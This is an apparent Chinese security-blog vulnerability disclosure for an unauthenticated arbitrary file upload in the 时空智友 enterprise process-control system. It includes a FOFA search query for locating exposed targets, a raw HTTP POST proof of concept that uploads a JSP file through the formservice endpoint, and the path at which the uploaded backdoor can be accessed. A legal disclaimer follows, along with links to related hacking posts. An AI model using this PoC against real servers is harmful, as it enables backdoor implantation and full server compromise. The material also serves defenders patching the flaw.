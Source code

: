 #  时空智友企业流程化管控系统文件上传漏洞   
 蚁剑安全实验室   2023-11-23 18:07  
  
时空智友企业流程化管控系统是一个功能丰富、灵活可定制的企业管理工具。通过该系统，企业能够实现流程的自动化、协同的提升、数据的洞察和决策的优化，从而提高工作效率、管理水平和企业竞争力。  
时空智友企业流程化管控系统 formservice接口处存在任意文件上传漏洞，未经认证的攻击者可通过此接口上传后门文件，最终可导致服务器  
失陷。  
  
FOFA语句：app=“时空智友V10.1”  
  
poc:  
```
POST /formservice?service=attachment.write&isattach=false&filename=yb.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 1092

exp
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqqssRNQ1nv1xvdOIxjp70kYjgbhQSYKzABSUgZ8VHBibTsOokzweOkpfRv217CEd06Wia8OmYibzNMQ/640?wx_fmt=png "")  
  
访问方式：  
```
http://ip/form/temp/回显文件名
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
小知识  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
声明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/vfnOYb9lyqr922u4gKibKgUuPUMicLibMqiajkAJp8vG8WLtiav9gmSF7T453KlPULqXgXJFaiat5gqogqncOXrghYPA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
欢迎   
**在看**  
丨  
**留言**  
丨  
**分享至朋友圈**  
 三连  
  
 **好文推荐******  
  
- [免登录读取别人的WX聊天记录](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247487346&idx=1&sn=9810af860afd8f94e1cf2ccf81a7e13f&chksm=c20a2c55f57da543fe1bdc21e670d036cb10efccf4d102a4bf9cb7c3956786858230c8172b54&scene=21#wechat_redirect)  
  
  
- [实战|监控里的秘密](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484122&idx=1&sn=88801391b60d3b77df97026e9e495ec2&chksm=c20a21fdf57da8eb9641bff94074f2aa736d12e3a48098d33e66aca17ded9267e6686ddb9452&scene=21#wechat_redirect)  
  
  
- [木马工具|控制别人的电脑，非常简单！](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484445&idx=1&sn=bb60b1a6a69c8c2d31a6e8d5fb09a638&chksm=c20a273af57dae2c544388af5d942e9100225f400d055274123dcd13784c21ec598b4f2e7591&scene=21#wechat_redirect)  
  
  
- [BlueLotus联动DVWA，实现xss窃取cookie](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247486084&idx=1&sn=62d3d7448aa06365d15157326e59b8e7&chksm=c20a29a3f57da0b56f4e5323d7c6b05e91b597df2697934e7903c27a730e2f4443983216f289&scene=21#wechat_redirect)  
  
  
- [实战|逻辑漏洞绕过](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247509911&idx=1&sn=c37f416483c1ab4bc7b8ee13a379280a&chksm=9acd7708adbafe1ef9f9f030e9de25446eacec18bd15df2f76ba21a4031c7f827563c03bb907&scene=21#wechat_redirect)  
  
  
- [路边的u盘你不要捡，山下的女人是老虎~](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485822&idx=1&sn=a5e05071dccc53fecc4b69d513489444&chksm=c20a2a59f57da34f00a26cab87251fffb1ca7ca51c658fea0d5e7f08788c1d59d86f95fc137a&scene=21#wechat_redirect)  
  
  
- [永恒之蓝彩虹猫联动](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485315&idx=1&sn=c64f1d550507b15b7655a6ec18e857de&chksm=c20a24a4f57dadb219c1ef76e18fad92932596782d9d7c10f264cb23245af31d5624666de16f&scene=21#wechat_redirect)  
  
  
- [5min学渗透|wifi断网攻击、暴力攻击](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485194&idx=1&sn=c425ac374dde652c5ac820b8b7aa5fdd&chksm=c20a242df57dad3b2fe01e302955f3ad3f25cde0ab8e08bb21a431c24f3acad965472efcdbed&scene=21#wechat_redirect)  
  
  
- [5min学渗透|你的手机是如何被监控的?](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485149&idx=1&sn=242ab51f1c6797cdff86af09a6ef6a1d&chksm=c20a25faf57dacec21276c8509c453a4c8446fdf44494ec2663ca61aab494ca7edc1eedc8694&scene=21#wechat_redirect)  
  
  
- [5min学渗透|简单制作钓鱼wifi 01](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485124&idx=1&sn=21899d53b348d7daa9e73b464fb9d423&chksm=c20a25e3f57dacf54e101b31ae6b292f822fc012795b604df0f15231072e80d887e8d98090bf&scene=21#wechat_redirect)  
  
  
- [实用小工具|破解office三件套加密密码](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485123&idx=1&sn=21bc7ca9cc48d0270667709dc448410f&chksm=c20a25e4f57dacf27d5fb2d90f1ac6c04ac36ca5549023c4d83c85ff5464632563bad975cd50&scene=21#wechat_redirect)  
  
  
  
  
